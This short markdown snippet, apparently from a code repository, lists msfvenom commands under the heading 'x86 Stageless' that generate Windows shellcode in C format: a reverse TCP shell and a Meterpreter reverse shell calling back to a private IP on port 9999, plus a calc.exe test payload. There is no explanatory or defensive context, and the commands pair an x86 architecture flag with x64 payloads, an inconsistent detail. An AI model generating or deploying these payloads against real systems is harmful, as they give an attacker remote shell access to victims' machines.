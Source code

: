 # x86 Stageless

reverse tcp
```sh
msfvenom -a x86 --platform windows -p windows/x64/shell_reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
```

meterpreter
```sh
msfvenom -a x86 --platform windows -p windows/x64/meterpreter_reverse_tcp  LHOST=192.168.52.128 LPORT=9999 -f c
```

calc
```sh
msfvenom -a x86 --platform windows -p windows/exec CMD="calc.exe" -f c
```

